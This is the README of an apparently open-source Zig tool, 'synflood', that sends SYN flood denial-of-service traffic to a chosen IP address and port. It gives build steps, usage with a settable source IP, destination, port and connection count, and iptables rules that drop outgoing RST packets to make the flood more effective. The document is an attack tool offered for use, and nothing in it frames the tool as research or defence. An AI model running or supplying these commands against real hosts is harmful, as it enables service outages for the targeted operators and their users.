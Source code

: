 # SynFlood

Start a SYN flood attack to an ip address.

## Requirements

- Zig
- libnet
	- `libnet1-dev` under Debian: `apt-get install libnet1-dev`
	- `libnet` under macOS: `brew install -s libnet`
- Root access for sending a packet.
- Its recommended to block all RST packets from the source host on the source host.
	
	```bash
	iptables -I OUTPUT -p tcp --dport 80 --tcp-flags RST RST -j DROP
	iptables -I OUTPUT -p tcp --dport 80 --tcp-flags RST ACK -j DROP
	```

## Build

1. Clone:
	
	```bash
	git clone https://github.com/TheFox/synflood.git
	```

2. In `synflood` directory, make:
	
	```bash
	zig build
	```
	
	Binary file is available as `zig-out/bin/synflood`.

3. Done.

## Usage

```bash
synflood [-h|--help] -s <IP> -d <IP> -p <PORT> -c <NUM>
```

- `-s`: Source IP address.
- `-d`: Destination IP address.
- `-p`: Destination port.
- `-c`: Number of connections.

Examples:

```bash
./synflood -s 192.168.241.31 -d 192.168.1.3 -p 80
./synflood -s 192.168.241.31 -d 192.168.1.3 -p 80 -c 1000
```
